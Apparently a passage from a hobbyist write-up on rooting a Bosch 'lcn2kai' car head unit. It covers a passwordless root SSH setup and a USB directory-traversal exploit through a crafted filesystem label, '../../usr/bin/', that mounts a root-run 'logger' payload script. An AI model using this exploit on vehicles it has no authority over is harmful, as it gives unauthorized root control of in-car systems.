   18.093432] VFP support v0.3: implementor 41 architecture 1 part 20 variant b rev 4
[   18.102415] registered taskstats version 1
[   18.122718] EXT4-fs (mmcblk0p1): mounted filesystem with ordered data mode
[   18.130022] VFS: Mounted root (ext4 filesystem) readonly on device 179:1.
[   18.146750] devtmpfs: mounted
[   18.149942] Freeing init memory: 148K
/bin/sh: can't access tty; job control turned off
/ # ls
bin	      etc		   lib	       opt		share	usr
boot	      home		   lost+found  proc		shared	var
cc_label.txt  include		   media       rfs_version.txt	sys
dev	      lcn2kai_version.txt  mnt	       sbin		tmp
/ #
/ # id
uid=0(root) gid=0(root)
/ #
```

Now isn't that a nice sight! Now, quickly, before something breaks, we need to enable actuall shell access. Since we already know we can connect over network via USB ethernet adapter, an SSH server would be great. Let's check out some details first. First, what's in `/etc/password` :

```
/ # cat passwd
root::0:0:root:/home/root:/bin/sh
...
```
As luck would have it, there appears to be no password set for root user! Looking at `sshd_config` also reveals (among other things):
```
PermitEmptyPasswords yes
```
So we don't even have to mess with that. Lastly, recall that nmap scans shows that port 22 wasn't filtered. We can confirm this with `iptables -L `, or by taking a look at `init.d/firewall.sh`:

```
-A INPUT -s 172.17.0.0/16 -d 172.17.0.0/16 -p tcp -m tcp --sport 513:65535 --dport 22 -m state --state NEW,ESTABLISHED -j ACCEPT
```
Above basically permits SSH connections, while other rules block everything else. Perfect. All we need to do now, to enable shell access over SSH, is edit a proper `init.d` script to execute `sshd` on system startup. The main script that guides initialization seems to be `/etc/init.d/fastboot/prj_boschinit.sh` , so simply adding following at the end of it will start up sshd for us:

```
/etc/init.d/sshd start
#just start actuall login session, just in case 
/bin/login
```
At this point, the file system is read-only, but can be remounted RW with `mount -o remount,rw /` which allows us to save the file system. Execute `sync` once or twice for good measure, cross your fingers and reboot! 
After the system is booted up and our network is configured, if all went well, we should be able to log in via ssh:

```
$ ssh root@172.17.0.1
!! The root file system is READ-ONLY !!
root@(none):~#
```

We are in, as they say.

## An accessible vulnerability and non invasive exploit

So far, we've gotten a shell on our test unit that's sitting on our workbench. That's great, but as I said in the outline, I would like to skip taking my dashboard apart if I could help it. I can only imagine it has a bunch of plastic clips all over the place that I'll surely break and then things will rattle forever... It'd be nice if we could now use this shell access to figure out a way to get shell in a more accessible way. 

As previously outlined, attack surface is largely the same (USB port and Bluetooth being obvious vectors), but now we can examine how the system works. I'll spare you the details of all the things I've tried, but the whole process is very reminiscent of old shell based wargames where you are looking for a way to elevate your privileges. 

As mentioned, one avenue of attack is via USB flash memory support for music. As you would expect from any car head unit, once you plug in a flash drive, the system will auto-mount it and scan it for multimedia it supports. There are many ways to do this, and likely as many ways to screw it up, so it would do us good to figure out how lcn2kai does this. 

On Linux, UDEV scripts are where one would start examining this. And indeed, in `etc/udev/scripts` we find the following:

```
root@bosch-nemid:/etc/udev/scripts# ls
monitor.sh  mount.sh  network.sh  not_mount.sh	trace_proxy.sh
```

All of these are very interesting in informing us how the whole system behaves, but we'll dig into `mount.sh`. As one would expect, it's a fairly simple script which gets called when a mass media USB device is detected in order to determine it's filesystem and mount it at the appropriate place. I'll quote just the relevant part of the code:

```
automount() {
    if [ -z "${ID_FS_TYPE}" ]; then
	logger -p user.err "mount.sh/automount" "$DEVNAME has no filesystem, not mounting"
	return
    fi

    # Determine the name for the mount point.  First check for the
    # uuid, then for the label and then for a unique name.
    if [ -n "${ID_FS_UUID}" ]; then
	mountdir=${ID_FS_UUID}
    elif [ -n "${ID_FS_LABEL}" ]; then
	mountdir=${ID_FS_LABEL}
    else
	mountdir="disk"
	while [ -d $MOUNTPT/$mountdir ]; do
	    mountdir="${mountdir}_"
	done
    fi
...
...
...
   result=$($MOUNT -t ${ID_FS_TYPE} -o sync,ro$IOCHARSET $DEVNAME "$MOUNTPT/$mountdir" 2>&1)
```

At the start of `automount` option, the script tries to determine the mount point. MOUNTPT var points to "/dev/media" , the actuall mount point for the drive is `$MOUNTPT/$mountdir` and there's a couple of options on how `$mountdir` is determined. There's three options. First, FS UUID is used as a mount point, if it exists. If not, FS Label is used , if it exists. And finally, if neither FS UUID nor FS Label exist , mountdir `disk` is simply used. Finally , `mount` command is executed in the last line. This final line would be a good place to examine for any command injection vulnerabilities, but it would appear that any controllable data is properly quoted. But, not all is lost!

Can we somehow force directory traversal in mount point ? Final mountpoint is `$MOUNTPT/$mountdir`, if `$mountdir` could somehow contain `../` , it could lead to directory traversal, which we could potentially abuse. Going back to how `$mountdir` is determined, even though we can control UUID, it's basically a HEX string on all file systems, so that can't lead to dir traversal, but `ID_FS_LABEL` can contain arbitrary data! So, all we need to do to abuse this issue is make a flash drive with a file system that has no UUID and has an FS Label of the form "../../some/other/path". When that gets extended `$MOUNTPT/$mountdir` would actually become `/dev/media/../../some/other/path` or `/some/other/path`. If that actually works, it would mean we could get contents of our flash drive to be mounted anywhere over root file system. That seems like an easy path to success.

The plan has a couple of steps. First is to create a flash drive with ext2 file system as we can be sure ext2 is supported and anything we put on it would keep +x bit unless additional options to `mount` are specified. Then make it not have a UUID which can be simply achieved by zeroing out the UUID in the ext2 header. Then, the FS label needs to be set to exploit the directory traversal to mount it over something that would lead to code execution. Looking up further down the `mount.sh` script would show the following:

```
result=$($MOUNT -t ${ID_FS_TYPE} -o sync,ro$IOCHARSET $DEVNAME "$MOUNTPT/$mountdir" 2>&1)
    status=$?
    if [ ${status} -ne 0 ]; then
	logger -p user.err "mount.sh/automount" "$MOUNT -t ${ID_FS_TYPE} -o sync,ro $DEVNAME \"$MOUNTPT/$mountdir\" failed: ${result}"
	rm_dir "$MOUNTPT/$mountdir"
    else
	logger "mount.sh/automount" "mount [$MOUNTPT/$mountdir] with type ${ID_FS_TYPE} successful"
	mkdir -p ${MOUNTDB}
	echo -n "$MOUNTPT/$mountdir" > "${MOUNTDB}/$devname"
    fi
```

So, right after the file system is mounted (successfully or unsuccessfully), command `logger` is executed to log the message. Command `logger` is in `/usr/bin`:
```
# which logger
/usr/bin/logger
```

If we choose this as a target, our FS label would be `../../usr/bin/`. Finally, the prepared flash drive would need to contain a single file called `logger` with +x set on it. This file will be a simple shell script that would install enable SSH server just like we did manually in the previous section. The script can be something like this:

```
#make a file on the usb flash so we know if execution happened
touch /usr/bin/itworked
#remount root FS as RW 
mount -o remount,rw /
#enable sshd
echo "/etc/init.d/sshd start" >> /etc/init.d/fastboot/prj_boschinit.sh
#just for good measure
sync
sync 
```

Now, with usb flash drive in hand, we can walk to the car, turn the car on , wait for the infotainment system to fully boot up, insert the USB drive, count to 15 and turn off the car. If all went well, the flash drive should now contain an additional file named `itworked`. Turn off the car and wait for a minute or two for lcn2kai to full power down. Power it back up again, wait a minute , connect the ethernet addapter and try to connect to SSH. If all went well, you should be greeted with a root shell. Simple as that.

This repository should contain a script that would create a suitable file system to put on a flash drive that would make this straightforward. 

## Where from here

Once I got this non-invasive root shell it was time to dig deeper into the system to figure out how it work. Other documents in this repository will document how various other details of lcn2kai head unit work, how they can be accessed and interacted with and how custom applications can be written. 

The idea with releasing this writeup is to enable others to thinker on their own car's head units which would hopefully result in more interesting features being implemented. There's hundreds of thousands of these in many models of cars out there and the fact that they are out of warranty and out of support from the manufacturer doesn't mean they are completely obsolete! 


